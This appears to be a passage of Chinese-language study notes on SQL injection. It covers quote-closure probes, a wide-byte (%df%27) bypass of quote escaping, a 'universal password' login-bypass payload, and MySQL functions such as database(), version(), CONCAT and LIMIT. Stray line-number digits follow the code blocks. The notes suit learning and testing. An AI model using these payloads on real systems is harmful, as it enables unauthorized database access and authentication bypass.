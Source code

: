 输入，错误回显

```
?id=1’ and false --+
或者
?id=true‘ and false --+
123
```

那么就是单引号闭合，其他符号同理

### 单引号转义绕过

当时用单引号’，代码转义为\’，就使用如下方式替换掉单引号

```
%df%27
�'
%EF%BF%BD
123
```

万能密码

```
�' and1=1 #
1
```

### database()

返回当前数据库名

### version()

返回数据库的版本号

### CONCAT(s1,s2…sn)

字符串 s1,s2 等多个字符串合并为一个字符串

### CONCAT_WS(x, s1,s2…sn)

同 CONCAT(s1,s2,…) 函数，但是每个字符串之间要加上 x，x 可以是分隔符

### LIMIT

```
mysql> SELECT * FROM table LIMIT 5,10; // 检索记录行 6-15

//为了检索从某一个偏移量到记录集的结束所有的记录行，可以指定第二个参数为 -1： 
mysql> SELECT * FROM table LIMIT 95,-1; // 检索记录行 96-last.

//如果只给定一个参数，它表示返回最大的记录行数目： 
mysql> SELECT * FROM table LIMIT 5; //检索前 5 个记录行

//换句话说，LIMIT n 等价于 LIMIT 0,n。
123456789
```
